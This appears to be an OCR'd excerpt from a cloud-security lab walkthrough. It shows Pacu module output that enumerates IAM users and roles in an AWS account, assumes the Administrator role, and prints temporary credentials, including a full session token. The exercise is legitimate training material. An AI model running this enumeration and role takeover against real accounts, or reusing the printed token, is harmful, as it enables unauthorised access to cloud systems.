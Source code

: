 ```
[iam__enum_users]     arn:aws:iam::104506445608:user/dbadmin
[iam__enum_users]     arn:aws:iam::104506445608:user/intern

[iam__enum_users] iam__enum_users completed.

[iam__enum_users] MODULE SUMMARY:

  8 user(s) found after 1136 guess(es).
```

iam__enum_roles

```
Pacu (pwnedlabs6:from_default-348887239824) > run iam__enum_roles --role-name IAMEnum --account-id 104506445608
  Running module iam__enum_roles...
[iam__enum_roles] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name and are allowed to use sts:AssumeRole to try and assume any enumerated roles!

[iam__enum_roles] Targeting account ID: 104506445608

[iam__enum_roles] Starting role enumeration...

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/APIGateway

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/Administrator

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/AutoScaling

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/DatadogAWSIntegrationRole

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/OrganizationAccountAccessRole

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/batch

[iam__enum_roles] Found 6 role(s):

[iam__enum_roles]     arn:aws:iam::104506445608:role/APIGateway
[iam__enum_roles]     arn:aws:iam::104506445608:role/Administrator
[iam__enum_roles]     arn:aws:iam::104506445608:role/AutoScaling
[iam__enum_roles]     arn:aws:iam::104506445608:role/DatadogAWSIntegrationRole
[iam__enum_roles]     arn:aws:iam::104506445608:role/OrganizationAccountAccessRole
[iam__enum_roles]     arn:aws:iam::104506445608:role/batch

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials...

[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour...

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::104506445608:role/Administrator

[iam__enum_roles] {
  "Credentials": {
    "AccessKeyId": "ASIA********AXYQMKJY",
    "SecretAccessKey": "ThN0lr0Bm3************s+DXNaJwl",
    "SessionToken": "FwoGZXIvYXdzEI3//////////wEaDNZ3Hvjf0W6+Xbc95yK4AbPMZeRMS4YQkAL3/9tJcTqkXRIPU/8hhZSm3r3JiJ5kLuX0FP3Uhdi1c/tzJq+mMH/PoHoOXEpSSE0FZy1B6rCkW1bHVety/fTrkimPhQRTIwKBVvC1bA669hHgiLy8oPXSBmypIKJtctFm3X8jY5AdMMseGduY5UD8hkUUxYR7ZEyUaM3jl3fwSae1NHtA6w0rjLLDb2nA7YrnJjWvb2uyDAiTPRStBfsSW0AdQMIRzx9iiI161DUousCJwgYyLVyIn3xLmULlhraorXScnnt+xD/VkIGPMu4o/spK95lIlIR4NgIfF/pA8qh8+w==",
    "Expiration": "2025-06-06 04:27:54+00:00"
  },
  "AssumedRoleUser": {
```